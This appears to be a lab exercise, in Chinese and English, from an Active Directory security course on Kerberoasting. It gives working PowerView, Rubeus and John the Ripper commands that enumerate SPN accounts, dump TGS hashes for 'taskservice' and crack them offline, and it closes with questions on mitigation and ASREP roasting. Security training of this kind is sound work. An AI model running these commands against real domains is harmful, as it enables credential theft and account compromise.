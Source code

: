 # Exercise 4 - Kerberos Roasting

## Tools

所需工具:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- john: [https://www.openwall.com/john/](https://www.openwall.com/john/)

## Exercise

在此練習中，我們將使用 Kerberoasting攻擊，利用密碼爆破方式取得服務帳號 "taskservice".

載入Powerview和Rubeus兩個powershell模組

```powershell
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Get all domain users with a Service Principal Name (SPN).

列舉所有有註冊SPN的domain users

```powershell
Get-DomainUser -SPN | select samaccountname, description, pwdlastset, serviceprincipalname
```

也可使用rubeus取得相關資訊

```powershell
Invoke-Rubeus -Command "kerberoast /stats"
```

使用Rubeus發起TGS請求並將TGS輸出到檔案krb5tgs.txt

```powershell
Invoke-Rubeus -Command "kerberoast /user:taskservice /format:hashcat /outfile:krb5tgs.txt"
```

利用john the ripper離線破解TGS，嘗試取得taskserivice明文密碼

```powershell
cd C:\attacker-tools\john\run
.\john.exe <path-to-krb5tgs.txt> --wordlist=..\..\example.dict --rules=passphrase-rule2
```


## Questions

 - Do an online research on how to best mitigate kerberoasting attacks. Describe the mitigation techniques that you think are the best and explain why you chose them.
 - There is another user account vulnerable to ASREP roasting. Crack his password using similar commands like in the previous exercise. (Hint: Get-DomainUser -NoPreauth)
 - Explain the difference between the two attacks you just executed (TGS vs. ASREP roasting).
